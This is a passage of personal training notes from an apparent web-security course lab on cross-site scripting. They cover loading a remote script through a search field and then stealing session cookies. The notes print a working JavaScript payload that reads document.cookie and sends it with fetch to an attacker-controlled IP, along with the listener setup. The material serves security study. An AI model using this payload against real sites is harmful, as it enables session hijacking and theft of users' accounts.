 The payload will append a script element to the HTML document and the script tag will load the `xss.js` file from our Kali machine. Let's submit the search and exploit the XSS.
![[Pasted image 20240731162755.png]]
After Search
![[Pasted image 20240731162838.png]]
After hitting ok the `script` is rendered on the attacker side it becomes encoded
![[Pasted image 20240731163144.png]]
Once its encoded, render on the victim and now we receive the alert output
![[Pasted image 20240731163309.png]]
I am supposed to see traffic in the `python3 -m http.server 80`, but i dont - however it is working.
![[Pasted image 20240731163815.png]]
After looking at burpsuite, due to my proxy being setup it seems that It is getting the get request but isnt because the referer maybe?
![[Pasted image 20240731163932.png]]
Ok nvm - python server was lagging - the 304 is the upload to the server side, the 200 is the victim rendering the page
![[Pasted image 20240731164447.png]]
We find two entries in the HTTP server logs. The first is from our own Kali IP when we loaded the page ourselves. The second is from the victim's browser.

We'll use the script element payload and the search application for the remainder of the exploits. However, this payload can't be used for any other XSS styles that won't automatically execute JavaScript (for example, client XSS vulnerabilities that use _innerHTML_). Fortunately, there are other methods to get around this restriction.


------------------
#### 5.1.3 Stealing Session Cookies
The age-old goal of cross-site scripting has always been to exfiltrate the user's session cookie. When obtained, we can use the session cookie to authenticate to the application as the victim, but the increased use of the _HttpOnly_ attribute has made this exploit less prevalent. However, it is still important for us to understand how the exploit works and how an application responds when the _HttpOnly_ attribute is set.

Using JavaScript, we can access the cookies of a page using the `document.cookie` property. We'll extract this value, URL encode it, and use _fetch_ to send it back to our Kali VM. All of this will be done in the xss.js file.

```bash
┌──(root💀gobots)-[31Jul2024 20:53:19]-[/home/kali/SUT/OSWA/xss]
└─# vim xss2.js     

┌──(root💀gobots)-[31Jul2024 20:53:43]-[/home/kali/SUT/OSWA/xss]
└─# cat xss2.js                  
let cookie = document.cookie

let encodedCookie = encodeURIComponent(cookie)

fetch("http://192.168.45.223/exfil?data=" + encodedCookie)


# set up python server
kali@kali:~/xss$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
